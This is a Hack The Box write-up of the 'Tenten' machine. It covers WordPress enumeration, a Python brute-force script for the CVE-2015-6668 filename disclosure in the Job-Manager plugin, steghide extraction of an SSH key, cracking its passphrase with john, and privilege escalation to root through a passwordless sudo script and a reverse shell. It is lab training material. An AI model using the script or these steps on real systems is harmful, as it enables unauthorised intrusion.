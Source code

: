 ```yaml
---
title:     "Hack The Box - Tenten"
tags: [linux,medium,sudo,wordpress,plugin]
---
```


![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-tenten/1.png)

We are going to pwn Tenten from Hack The Box.

Link : <https://www.hackthebox.eu/home/machines/profile/8>


Like always begin with our Nmap Scan.

## Nmap Scan Results:

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http


PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ec:f7:9d:38:0c:47:6f:f0:13:0f:b9:3b:d4:d6:e3:11 (RSA)
|   256 cc:fe:2d:e2:7f:ef:4d:41:ae:39:0e:91:ed:7e:9d:e7 (ECDSA)
|_  256 8d:b5:83:18:c0:7c:5d:3d:38:df:4b:e1:a4:82:8a:07 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.7.3
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Job Portal &#8211; Just another WordPress site
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 4.11 (92%), Linux 3.12 (92%), Linux 3.13 (92%), Linux 3.13 or 4.2 (92%), Linux 3.16 (92%), Linux 3.16 - 4.6 (92%), Linux 3.18 (92%), Linux 3.2 - 4.9 (92%), Linux 3.8 - 3.11 (92%), Linux 4.2 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## HTTP

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-tenten/2.png)<br/>
Since its a wordpress site we can enumerate using ``wpscan`` to get see if there is any users and plugins available<br/>
Found a Plugin called ``job-manager``
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-tenten/3.png)

Found an User  ``takis``<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-tenten/4.png)

I started searching for any exploits available for that plugin and found

>https://vagmour.eu/cve-2015-6668-cv-filename-disclosure-on-job-manager-wordpress-plugin/

From the blog I found there is a directory ``/index.php/jobs/apply/@@/``<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-tenten/5.png)

As we can see there is an ID and when I changed to some random numbers and job title has been changed.<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-tenten/6.png)

So I started trying some random number to check if there is anything useful for us.<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-tenten/7.png)<br/>
Found this ``HackerAccessGranted`` from the ID 13 , Which looks suspecious.

In WordPress there is directory structure for the uploaded files is recognized by ``/wp-content/uploads/%year%/%month%/%filename%``
 
There is a python script given in the above Link ``CVE-2015-6668`` which helps to find the exact directory of the file location by bruteforcing.

I did some modifications on the script 

> - Changed the year range to the year of the box released.
> - Changed the extensions.

```
import requests

print """  
CVE-2015-6668  
Title: CV filename disclosure on Job-Manager WP Plugin  
Author: Evangelos Mourikis  
Blog: https://vagmour.eu  
Plugin URL: http://www.wp-jobmanager.com  
Versions: <=0.7.25  
"""  
website = raw_input('Enter a vulnerable website: ')  
filename = raw_input('Enter a file name: ')

filename2 = filename.replace(" ", "-")

for year in range(2017,2018):  
    for i in range(1,13):
        for extension in {'jpg','jpeg','png','pdf','txt'}:
            URL = website + "/wp-content/uploads/" + str(year) + "/" + "{:02}".format(i) + "/" + filename2 + "." + extension
            req = requests.get(URL)
            if req.status_code==200:
                print "[+] URL of CV found! " + URL
```

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-tenten/8.png)<br/>
It found the exact location of the file ``HackerAccessGranted``

Opened the link and its an image.<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-tenten/9.png)

This is the image we found!!<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-tenten/10.1.jpg)

Downloaded it to my machine to check with ``steghide`` to see if there is anything hidden.

> steghide - a steganography program

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-tenten/10.png)

Got SSH Private key so lets use ssh2john before cracking it with john<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-tenten/11.png)<br/>
I saved the output as ``ssh2john`` and I gave it to ``john`` to crack the password.<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-tenten/12.png)<br/>

So the password is ``superpassword``. We already know there is an user named ``takis``<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-tenten/13.png)

## Privilege Escalation:

Like always I started with ``sudo -l``<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-tenten/14.png)

Looks like we can run ``fuckin`` as root without password.<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-tenten/15.png)<br/>
``fuckin`` seems to be a script that contains arguments and that we need to pass on.

Lets try with ``whoami``

Now its time to get reverse shell as root using the ``fuckin``<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-tenten/16.png)

Started my listener<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-tenten/17.png)

I got Root!


